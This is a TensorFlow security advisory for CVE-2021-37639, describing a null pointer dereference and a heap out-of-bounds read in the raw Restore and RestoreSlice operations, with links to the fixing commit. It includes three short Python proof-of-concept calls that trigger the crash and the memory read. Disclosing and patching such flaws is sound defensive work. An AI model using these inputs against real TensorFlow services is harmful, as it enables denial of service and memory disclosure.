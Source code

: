 ## TFSA-2021-113: Null pointer dereference and heap OOB read in operations restoring tensors

### CVE Number
CVE-2021-37639

### Impact
When restoring tensors via raw APIs, if the tensor name is not provided,
TensorFlow can be tricked into dereferencing a null pointer:

```python
import tensorflow as tf

tf.raw_ops.Restore(
  file_pattern=['/tmp'],
  tensor_name=[],
  default_value=21,
  dt=tf.int,
  preferred_shard=1)
```

The same undefined behavior can be triggered by `tf.raw_ops.RestoreSlice`:

```python
import tensorflow as tf

tf.raw_ops.RestoreSlice(
  file_pattern=['/tmp'],
  tensor_name=[],
  shape_and_slice='2',
  dt=inp.array([tf.int]),
  preferred_shard=1)
```

Alternatively, attackers can read memory outside the bounds of heap allocated
data by providing some tensor names but not enough for a successful restoration:

```python
import tensorflow as tf

tf.raw_ops.Restore(
  file_pattern=['/tmp'],
  tensor_name=['x'],
  default_value=21,
  dt=tf.int,
  preferred_shard=42)
```

The
[implementation](https://github.com/galeone/tensorflow/blob/47a06f40411a69c99f381495f490536972152ac0/tensorflow/core/kernels/save_restore_tensor.cc#L158-L159)
retrieves the tensor list corresponding to the `tensor_name` user controlled
input and immediately retrieves the tensor at the restoration index (controlled
via `preferred_shard` argument). This occurs without validating that the
provided list has enough values.

If the list is empty this results in dereferencing a null pointer (undefined
behavior). If, however, the list has some elements, if the restoration index is
outside the bounds this results in heap OOB read.

### Patches
We have patched the issue in GitHub commit
[9e82dce6e6bd1f36a57e08fa85af213e2b2f2622](https://github.com/galeone/tensorflow/commit/9e82dce6e6bd1f36a57e08fa85af213e2b2f2622).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
